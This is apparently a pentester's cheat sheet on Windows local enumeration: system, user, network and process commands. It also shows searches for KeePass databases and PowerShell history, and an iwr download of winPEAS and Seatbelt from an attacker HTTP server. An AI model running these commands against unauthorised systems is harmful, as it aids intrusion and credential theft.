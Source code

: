 # Local Enumeration

Username and hostname.

```batch
whoami
hostname
```

Group memberships of the current user.

```batch
whoami /groups
```

Existing users and groups.

{% tabs %}
{% tab title="PowerShell" %}
```powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember <group_name>
```
{% endtab %}

{% tab title="Batch" %}
```batch
net user
```
{% endtab %}
{% endtabs %}

Operating system, version and architecture.

```batch
systeminfo
```

Network information.

```batch
ipconfig /all
route print
netstat -ano
```

Installed applications.

{% code overflow="wrap" %}
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
{% endcode %}

Running processes.

```powershell
Get-Process
Get-Process <Proccess> | select Path
```

Search for files.

{% code overflow="wrap" %}
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.bin *.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
```
{% endcode %}

PowerShell history.

```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

PowerShell history event logs.

```
Get-WinEvent Microsoft-Windows-PowerShell/Operational | Where-Object Id -eq 4104 | ForEach-Object { $_.Message } | findstr "dave*"
```

## Automated Enumeration

Download and execute **`winPEAS`** and **`Seatbelt`.**

```powershell
iwr -uri http://<attacker_http_server>/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://<attacker_http_server>/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```

## References

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS" %}
winPEAS
{% endembed %}

{% embed url="https://github.com/GhostPack/Seatbelt" %}
Seatbelt
{% endembed %}

